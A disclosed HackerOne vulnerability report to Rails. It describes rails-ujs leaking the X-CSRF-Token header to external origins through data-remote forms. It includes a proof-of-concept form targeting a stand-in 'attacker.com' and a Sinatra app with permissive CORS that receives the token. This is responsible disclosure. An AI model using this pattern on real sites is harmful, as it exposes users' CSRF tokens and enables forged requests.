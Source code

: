 # CSRF header is sent to external websites when using data-remote forms

## Report Details
- **Report ID**: 189878
- **URL**: https://hackerone.com/reports/189878
- **State**: Closed
- **Severity**: low
- **Submitted**: 2016-12-09T16:27:17.706Z
- **Disclosed**: 2020-05-26T22:38:40.225Z

## Reporter
- **Username**: mastahyeti
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: rails

## Vulnerability Information
Looks like there is a regression in the fix for CVE-2015-1840 ([H1 report](https://hackerone.com/reports/49935)). The origin isn't being checked before adding a CSRF header to `data-remote` forms. I noticed this when checking out the new rails-ujs repo.

Example Rails template:

```
<%= form_tag "http://attacker.com", remote: true do %>
  <button type=submit>submit</button>
<% end %>
```

Example http://attacker.com app

```
require "sinatra"

options '/*' do
  headers['Access-Control-Allow-Origin'] = "*"
  headers['Access-Control-Allow-Methods'] = "POST"
  headers['Access-Control-Allow-Headers'] ="x-csrf-token"
end

post '/*' do
  "foo"
end
```

When the form is submitted, an XHR request to attacker.com is sent, including the `X-CSRF-Token` header.

PS: @tenderlove told me to submit this here. I shouldn't get paid since I'm one of the GitHub folks who reviews these H1 submissions now.

## Attachments
No attachments
